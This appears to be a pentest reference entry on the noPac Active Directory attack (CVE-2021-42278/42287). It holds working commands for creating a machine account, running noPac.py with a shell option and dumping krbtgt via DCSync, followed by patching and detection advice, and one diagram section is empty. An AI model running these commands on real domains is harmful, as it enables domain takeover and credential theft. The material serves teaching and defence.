

# noPac (with CVE-2021-42278)

### Affected object / attribute
**`sAMAccountName`** on a **machine account** (CVE-2021-42278) and the **KDC PAC validation logic** (CVE-2021-42287).

### Concept (deep)
CVE-2021-42278: a machine account’s `sAMAccountName` can be changed to match a **Domain Controller’s name without the trailing `$`**. CVE-2021-42287: when a TGT is requested for a name that no longer resolves, the KDC re-looks-up the name and finds the **DC** object, issuing an **S4U2self** ticket with the DC’s privileges. The chain is: create a machine account → rename it to the DC name → request a TGT → request an S4U2self ticket as a privileged user (e.g. Administrator).

The key precondition is **`ms-DS-MachineAccountQuota > 0`** (default 10) so any authenticated user can create the initial machine account.

### Attack flow (Mermaid)


### Step-by-step mechanics
1. **Check MAQ** — if zero, the chain cannot start without delegated computer-create rights.
2. **Create machine account** — `impacket-addcomputer` or `PowerMad`.
3. **Clear SPNs** (some variants) and **rename** to the DC name without `$`.
4. **Request a TGT** for the spoofed name.
5. **Request an S4U2self ticket** as Administrator.
6. **Use the ticket** for DCSync or a shell.

### Exhaustive commands
```bash
# ── Check MachineAccountQuota ─────────────────────────────────────────
nxc ldap 10.10.10.5 -u lowpriv -p 'Password123!' -M maq

# ── Create machine account ────────────────────────────────────────────
impacket-addcomputer -computer-name 'PWN$' -computer-pass 'Pwn123!' \
  -dc-ip 10.10.10.5 corp.local/lowpriv:'Password123!'

# ── Automated noPac ───────────────────────────────────────────────────
python3 noPac.py corp.local/lowpriv:'Password123!' \
  -dc-ip 10.10.10.5 -dc-host DC01.corp.local -shell

# ── Scan-only mode ────────────────────────────────────────────────────
python3 noPac.py corp.local/lowpriv:'Password123!' \
  -dc-ip 10.10.10.5 -dc-host DC01.corp.local -scan

# ── DCSync after noPac ────────────────────────────────────────────────
impacket-secretsdump -just-dc-user krbtgt \
  corp.local/Administrator@10.10.10.5
```

### Impact
- **Domain Admin in a single command** for any authenticated user on an unpatched domain.
- **Full DCSync** and Golden Ticket capability.

### Detection and defensive measures
- **Patch** KB5008102 / KB5008380 (November 2021).
- **Set `ms-DS-MachineAccountQuota = 0`** so ordinary users cannot create machine accounts.
- **Monitor 4741** (computer account created) followed by **4781** (account renamed) within minutes from the same principal; **4768** for a machine name equal to a DC name.
- **Delegate computer creation** to a tier-0 group and audit `Create Computer Objects` permissions.

---
